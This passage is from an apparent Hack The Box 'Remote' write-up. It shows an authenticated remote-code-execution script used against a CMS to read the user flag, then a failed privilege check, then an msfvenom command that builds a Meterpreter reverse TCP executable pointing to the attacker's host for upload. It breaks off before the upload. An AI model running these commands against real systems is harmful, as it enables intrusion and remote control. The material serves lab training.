 -ar---        8/27/2020   2:15 AM             34 user.txt                                                              



kali@kali:~/HTB/Remote$ python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c powershell.exe -a "type c:/Users/Public/user.txt"
d9------------------------------
{% endhighlight %}

Awesome we got the user flag :)

## Root

Unfortunatly we don't have full access to the machine yet:

{% highlight bash %}
kali@kali:~/HTB/Remote$ python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c powershell.exe -a "dir c:/Users/Administrator"
dir : Access to the path 'C:\Users\Administrator' is denied.
At line:1 char:1
+ dir c:/Users/Administrator
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\Users\Administrator:String) [Get-ChildItem], UnauthorizedAccessExc
   eption
    + FullyQualifiedErrorId : DirUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand
{% endhighlight %}

Recall that we can upload to the server using the Media tab on the CMS portal. So I wip up a reverse tcp exe using msfvenom:

{% highlight bash %}
kali@kali:~/HTB/Remote$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.30 LPORT=4444 -f exe > final.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
{% endhighlight %}

And upload it to the server:
